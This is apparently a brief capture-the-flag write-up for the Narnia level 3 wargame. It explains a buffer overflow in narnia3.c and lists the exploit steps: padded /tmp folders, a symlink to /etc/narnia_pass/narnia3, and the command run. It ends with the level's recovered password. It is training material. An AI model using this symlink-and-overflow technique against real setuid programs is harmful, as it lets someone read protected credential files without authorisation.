 cd /narnia
cat narnia3.c
buffer overflow when copying buf into ifile, overflowing into ofile
ending substring of input file path must be output file path
/tmp/[folder]/[padding]/tmp/[folder]/[filename] must be input file path

create folder /tmp/hn3
create output file /tmp/hn3/o.txt
chmod a+w o.txt
create input folder (padding). Experimentally derived "aaaaaaaaaaaaaaaaaaaaaaa"
create folder /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3
create symlink in this folder (ln -s /etc/narnia_pass/narnia3 /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3/o.txt)
in narnia folder run:
./narnia3 /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3/o.txt
cat /tmp/hn3/o.txt
thaenohtai
